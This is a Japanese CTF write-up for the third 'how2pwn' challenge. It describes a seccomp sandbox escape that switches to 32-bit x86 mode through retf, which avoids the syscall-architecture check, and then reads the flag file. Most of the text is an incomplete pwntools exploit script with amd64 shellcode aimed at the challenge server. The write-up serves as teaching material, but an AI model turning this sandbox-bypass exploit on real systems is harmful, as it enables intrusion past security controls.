 FLAGを見ると3問目のexploit codeのサンプルとticketが置いてあった。

## 3問目
### 解法
このあたりから難しくなってくる。
文字数の制約はなくなった代わりに、いくつかのシステムコールが制限されてしまった (出力系やシェル起動するやつら全般)。
しかしながら、このsandboxにはシステムコールのアーキテクチャを確認していないという脆弱性が存在する。

方針としては、任意のアドレスをmmapシステムコールで新たに確保して、このアドレスにread()でx86のシェルコードを置く。
その後`retf`命令でx86のシェルコードにjmpしつつcsレジスタを0x23に書き換える。
すると、以降x86 archの命令を解釈するようになって無事シェルコードが続行される。
実際にはアーキテクチャが違うため、x86モードではシェルを開くことができない。
FLAGのファイル名とリポジトリを教えてくれているので、open -> read -> witeで読み出しましょう。

### Exploit
配布されたサンプルを魔改造したせいで可読性にかける。申し訳ない。

x86を経由してsandboxを抜ける手法は非常に勉強になった。
```py
from pwn import *
import sys

# context.log_level='debug'
p = remote("how2pwn.chal.csaw.io",60003)

ticket = b'8e7bd9e37e38a85551d969e29b77e1ce'
p.send(ticket)

context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# 1. In this challenge, you can't open a file because of the strict sandbox
# 2. But there is a vul about the sanbox, it doesn't check the syscall arch.
# 3. We can use x86 syscalls to bypass it. All x86 syscalls: https://syscalls32.paolostivanin.com/
# 4. You may find x86 can't visite x64 address because x64 address is too long to be stored in the x86 register. However, we still have syscall_mmap, which could allocate a chunk of memory, for example 0xcafe000, so we can visite this address in x86 mode.
# 5. There is a demo for retf: https://github.com/n132/n132.github.io/blob/master/code/GoogleCTF/S2/XxX/pwn.S


context.arch = 'amd64'

shellcode = f'''
xor rax,rax
mov al, 9
mov rdi, 0xcafe000
mov rsi,0x2000
mov rdx,0x7
mov r10,0x21
xor r8,r8
xor r9,r9
syscall

xor rdi, rdi
mov rsi, 0xcafe000
mov rdx, 0x1000
xor rax, rax
syscall

mov rsi, 0x230cafe000
push rsi
'''

# gdb.attach(p)
```
